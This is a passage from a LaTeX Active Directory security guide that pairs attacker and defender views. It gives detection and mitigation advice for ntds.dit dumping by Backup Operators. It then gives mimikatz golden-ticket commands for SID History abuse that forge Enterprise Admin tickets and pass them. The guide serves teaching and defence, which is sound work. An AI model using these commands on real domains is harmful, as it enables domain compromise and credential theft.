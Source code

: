 \textbf{Impact:} Dumping \texttt{ntds.dit} → extracting all domain user hashes → Pass-the-Hash (PtH) → Domain Admin compromise.

\subsection{Defender View}
\begin{itemize}
    \item \textbf{Detection:}
    \begin{itemize}
        \item Monitor for \texttt{diskshadow.exe} execution and shadow copy creation from non-backup servers.
        \item Detect loading of custom DLLs like \texttt{SeBackupPrivilegeCmdLets.dll}.
        \item Alert on access to \texttt{C:\textbackslash Windows\textbackslash NTDS\textbackslash ntds.dit} outside normal processes.
    \end{itemize}
    \item \textbf{Mitigation:}
    \begin{itemize}
        \item Remove unnecessary users from the Backup Operators group.
        \item Use \textit{Just Enough Administration (JEA)} and \textit{Just-in-Time (JIT)} access for backup tasks.
        \item Implement File Integrity Monitoring (FIM) for sensitive files.
    \end{itemize}
\end{itemize}

\section{3. SID History Abuse}

\subsection{Attacker View}
If \textit{SID filtering} is disabled between child and root domains, attackers can forge Kerberos tickets containing elevated SIDs from the root domain.

\textbf{Steps:}
\begin{lstlisting}
Get-DomainSID -Domain current.root.domain.local
Get-DomainSID -Domain root.domain.local

mimikatz kerberos::golden /user:Administrator `
/domain:current.root.domain.local /sid:<CurrentDomainSID> `
/krbtgt:<krbtgtHash> /sids:<EnterpriseAdminsSID> `
/startoffset:0 /endin:600 /renewmax:10080 `
/ticket:\path\golden.kirbi

mimikatz kerberos::ptt \path\golden.kirbi
\end{lstlisting}

